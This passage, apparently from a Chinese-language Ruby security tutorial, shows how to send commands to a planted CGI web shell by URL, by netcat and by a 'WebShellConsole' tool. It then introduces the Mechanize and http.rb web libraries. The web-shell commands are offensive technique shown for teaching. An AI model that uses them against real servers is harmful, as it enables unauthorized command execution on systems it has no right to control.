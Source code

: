 ```
http://host/cgi/shell.rb?cmd=ls -la 
```

**Netcat**

```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80 
```

**WebShellConsole**

运行 wsc

```
ruby wsc.rb 
```

添加 Shell URL

```
Shell -> set http://host/cgi/shell.rb?cmd= 
```

现在提示你的命令

```
Shell -> ls -la 
```

## Mechanize

既然我们在谈论在 Ruby 中处理 web，我们不能忘记**Mechanize** gem，这是最知名的用于处理 web 的库。

**官方描述说**，Mechanize 库用于自动化与网站的交互。Mechanize 自动存储和发送 cookies，跟随重定向，并可以跟随链接和提交表单。表单字段可以填充并提交。Mechanize 还会跟踪你访问过的站点作为历史记录。

更多关于 Mechanize gem

+   [开始使用 Mechanize](http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html)

+   [Mechanize 示例](http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html)

+   [RailsCasts | Mechanize 教程](http://railscasts.com/episodes/191-mechanize)

既然你知道了艰难的方式，你会发现 Mechanize 就像鼠标点击一样简单！试试吧！

## HTTP.rb

HTTP（The Gem！即 http.rb）是一个用于从 Ruby 发出请求的易于使用的客户端库。它使用了一种简单的方法链接系统来构建请求，类似于 Python 的 Requests。

在幕后，http.rb 使用 http_parser.rb，这是一个基于 Node.js 解析器和其 Java 版本的快速 HTTP 解析本地扩展。这个库不仅仅是另一个围绕 Net::HTTP 的包装器。它本地实现了 HTTP 协议并将解析外包给本地扩展。

关于 http.rb gem 的更多信息

+   [官方仓库](https://github.com/httprb/http)

+   [官方 wiki](https://github.com/httprb/http/wiki)

* * *
